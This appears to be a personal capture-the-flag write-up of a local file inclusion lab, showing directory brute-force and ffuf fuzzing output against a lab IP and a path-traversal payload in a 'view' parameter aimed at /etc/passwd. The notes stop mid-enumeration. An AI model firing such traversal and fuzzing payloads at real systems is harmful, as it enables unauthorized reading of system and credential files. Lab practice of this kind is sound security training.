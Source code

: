 /dogs                 (Status: 301) [Size: 311] [--> http://10.201.16.99/dogs/]
/server-status        (Status: 403) [Size: 277]
Progress: 654825 / 654828 (100.00%)
===============================================================
Finished

Seems pretty normal let's run the subdirectories for funsies

direcrory list med found nothing in subdirectories oh well let's go inspect them manually

![[Pasted image 20251028225825.png]]

The description for this room is LFI so I guess we'll let 'er rip. Disappointedthe 403 has no tech stack enu but whatever.

root@ip-10-201-22-247:~# ffuf -u http://10.201.16.99/cats/FUZZ -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -fs 2287

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.201.16.99/cats/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

../.htpasswd            [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
/.htpasswd              [Status: 403, Size: 277, Words: 20, Lines: 10]
:: Progress: [914/914] :: Job [1/1] :: 15 req/sec :: Duration: [0:00:04] :: Errors: 3 ::

pretty interesting output but they're just 403s so I may need to doctor the list a bit. Definitely need to keep enumerating here.

Well i am dumb I played with the site a bit and it does this: http://10.201.16.99/?view=cat

so let's play with the view param a bit

http://10.201.51.7/?view=dog../../../../../etc/passwd

gets us

Here you go!
Warning: include(dog../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24
